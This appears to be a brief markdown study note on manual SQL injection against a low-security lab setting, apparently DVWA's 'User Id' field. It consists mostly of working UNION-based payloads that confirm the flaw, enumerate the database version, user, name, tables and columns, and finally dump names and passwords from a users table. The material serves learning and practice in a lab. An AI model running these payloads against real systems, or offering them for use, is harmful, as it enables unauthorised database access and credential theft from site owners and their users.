 # Manual SQL Injection

__Security (Low)__

User Id -> 1

### Test Vulnerability

```bash
 %' or '1'='1 
```
 Always True Cond.) [Null id with % and then always true 1=1]

### Database Version Selection-->
```bash 
%' or 0=0 union select null, version() #
 ```  
(# represents the comment line in SQL query) [0=0 or 1=1]

### Who owns the DB? 
```bash 
%' or 0=0 union select null, user() # 
```

### DB name employed to this particular site
```bash
 %' or 0=0 union select null, database() # 
```

### Displaying tables as information scema
```bash 
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%' # 
```


[guessing table name start with prefix user and then anything could be...]

```bash
 %' and 1=0 union select null, table_name from information_schema.tables # 
``` [displaying all the tables]

### Interest Zone--Users Table-->
```bash
 %' and 1=0 union select null, concat(table_name,0x0a, column_name) from information_schema.columns where table_name = 'users' # 
```
[0x0a for new line between table name and column name--hexadecimal code for sql]

### Extract the columns information
```bash 
%' and 1=0 union select null, concat(first_name,0x0a, last_name,0x0a,user,0x0a,password,0x0a,avatar) from users # 
```
